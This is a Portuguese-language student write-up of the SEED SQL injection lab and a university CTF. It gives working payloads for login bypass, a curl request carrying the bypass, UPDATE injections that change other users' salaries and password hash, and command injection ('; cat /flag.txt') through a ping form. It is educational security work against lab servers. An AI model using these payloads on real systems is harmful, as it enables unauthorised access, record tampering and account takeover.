


# Task 1
Nesta task somos apresentados com uma base de dados constituída por uma só tabela credentials. Esta tabela é constituída por 11 campos, sendo entre eles, um usado como Identificador Único, um como Nome de Utilizador e um para a Palavra-passe que é guardada em hash.
 

 

# Task 2
## Task 2.1
Para esta task temos que injetar sql na webpage para dar login como administrador. Analisando o código fonte descobrimos que os pedidos sql não são corretamente sanitizados e é possível fazer que o servidor ignore a verificação da palavra-passe.
```
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
    FROM credential
    WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

Para injetar sql basta no nome de utilizador introduzir a string `Admin' #` que vai comentar o resto da linha que corresponde à verificação da palavra-passe.


## Task 2.2
Para esta task repetimos o que fizemos na task anterior, mas desta vez usamos o comando `curl` no terminal. Para mandar os caracteres especiais `'`, ` ` e `#` estes têm de ser codificados para suportar o formato url.

`curl 'www.seed-server.com/unsafe_home.php?username=admin%27%20%23&Password=' > a.html`

a.html:


## Task 2.3
Para esta task temos de tentar correr múltiplos comandos de sql de uma vez. Para este teste preencheu-se o nome de utilizador com `Admin'; UPDATE credential SET PhoneNumber=111111111 WHERE ID=6;` que resultou numa pagina de erro.


Foi verificado no terminal que de facto o comando não teve qualquer efeito sobre a base de dados.

```
mysql> SELECT * FROM credential WHERE ID=6;
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  6 | Admin | 99999 | 400000 | 3/5   | 43254314 |             |         |       |          | a5bdf35a1df4ea895905f6f6618e83951a6effc0 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
1 row in set (0.00 sec)
```

A razão de este exploit não ter funcionado está relacionado com a função query() do php que não permite a execução de mais de 1 comando sql por query.

# Task 3
## Task 3.1
Para esta task era necessário tar logado com a utilizadora Alice e alterar o próprio salário. Para alterar o próprio salário bastou na pagina de editar perfil preencher o nickname com a string `Alice', Salary=999999, email='`.





Como podemos ver com a imagem acima conseguimos alterar o salário com sucesso.

## Task 3.2
Esta task envolve mudar o salário do utilizador 'Boby'. Para alterar o salário do 'Boby' basta entrar na secção de editar o perfil da 'Alice' adicionar a seguinte string ao nickname `', Salary=1 WHERE name='Boby' #` e guardar as alterações.

Para verificar se as alterações foram guardadas precisamos de verificar no container de mysql.
 
 ```
mysql> SELECT * FROM credential WHERE name='Boby';
+----+------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  2 | Boby | 20000 |      1 | 4/20  | 10213352 |             |         |       |          | b78ed97677c161c1c82c142906674ad15242b2d4 |
+----+------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
1 row in set (0.00 sec)
 ```

Como podemos verificar alteramos com sucesso o salário do utilizador 'Boby'.

## Task 3.3
Esta task envolve alterar a palavra pass do utilizador 'Boby' e entrar na conta do mesmo. Como este servidor sql usa uma hash sha1 foi submetida a mesma hash a string `hacked` que resultou na hash `e812ba8d00b270ef3502bb53ceb31e8c5188f14e`, de seguida foi executado no campo de nickname da pagina de editar o perfil da Alice a seguinte string `', Password='e812ba8d00b270ef3502bb53ceb31e8c5188f14e' WHERE name='Boby' #`, por ultimo deu-se log-out e de seguida log-in na conta do 'Boby' com a password `hacked`.

```
mysql> SELECT * FROM credential WHERE name='Boby';
+----+------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  2 | Boby | 20000 |      1 | 4/20  | 10213352 |             |         |       |          | e812ba8d00b270ef3502bb53ceb31e8c5188f14e |
+----+------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
1 row in set (0.00 sec)
```

Como podemos confirmar com o container mysql, a palavra-passe do bobby foi alterada para a hash correspondente à string `hacked`.

# CTF 8
## Desafio 1
No desafio 1 é nos dado um site e o seu o código fonte php correspondente ao site, ao analisar o código fonte descobrimos que as queries de sql não estão corretamente sanitizadas, sabemos também que o utilizador com mais privilégios é o admin. Para entrar na conta admin basta usar um OR que invalide a verificação da palavra-passe, no nosso caso foi usado a string `admin' OR '1'='1`.


## Desafio 2
Para o desafio 2 é nos dado um site com uma home page para dar log-in e outra pagina no diretório `tools/index.php`, no enunciado é também referido que o ficheiro flag.txt se encontra no diretório `/`.


Clicar no botão `Ping It` resulta no redirecionamento para o link `http://ctf-fsi.fe.up.pt:5000/tools/ping.php?target=google.com` que indica que somos redirecionados para o diretório `/tools/ping.php` e que a variável target é preenchida o com texto dado como input na pagina anterior.


Ao analisar o output obtido de dar ping ao servidor da Google, conseguimos observar semelhanças ao comando ping do Linux. Assumimos então que o servidor está a utilizar uma chamada do tipo `system("ping" + input)` onde o input equivale ao conteúdo introduzido na pagina anterior. Para comprovar a nossa teoria foi testado escapar o comando ping e correr um comando ls, para tal inseriu-se a string `; ls` no input da pagina anterior.


Concluímos então que a pagina ping.php corre um comando `system(ping + input)` e que esta chamada system não contem o input devidamente sanitizado. Como sabemos que o ficheiro flag.txt se encontra no diretório `\` regressamos à pagina anterior e demos como input a string `; cat /flag.txt`.


Chegamos assim à flag pretendida.
